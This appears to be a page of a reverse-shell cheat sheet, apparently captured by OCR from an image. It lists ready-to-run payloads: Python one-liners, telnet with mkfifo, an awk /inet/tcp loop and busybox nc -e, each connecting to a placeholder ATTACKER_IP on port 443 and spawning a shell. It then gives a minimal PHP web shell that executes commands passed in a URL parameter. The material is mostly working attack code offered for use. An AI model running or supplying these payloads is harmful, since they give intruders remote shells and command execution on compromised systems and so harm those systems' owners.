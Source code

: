 ### Python Payloads

#### Environment Variable Method
```bash
export RHOST="ATTACKER_IP"; export RPORT=443; 
python -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("bash")'
```

#### Subprocess Method
```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("ATTACKER_IP",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("bash")'
```

#### Short Version
```python
python -c 'import os,pty,socket;s=socket.socket();s.connect(("ATTACKER_IP",443));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn("bash")'
```

### Other Payloads

#### Telnet
```bash
TF=$(mktemp -u); mkfifo $TF && telnet ATTACKER_IP 443 0<$TF | sh 1>$TF
```

#### AWK
```bash
awk 'BEGIN {s = "/inet/tcp/0/ATTACKER_IP/443"; while(42) { do{ printf "shell>" |& s; s |& getline c; if(c){ while ((c |& getline) > 0) print $0 |& s; close(c); } } while(c != "exit") close(s); }}' /dev/null
```

#### BusyBox
```bash
busybox nc ATTACKER_IP 443 -e sh
```

---

## 6. Web Shells

### Concept
- **Web Shell**: Script executed through web server that provides command execution
- **Languages**: PHP, ASP, JSP, CGI scripts
- **Deployment**: Upload via vulnerabilities or unauthorized access

### Basic PHP Web Shell Example
```php
<?php
if (isset($_GET['cmd'])) {
    system($_GET['cmd']);
}
?>
```
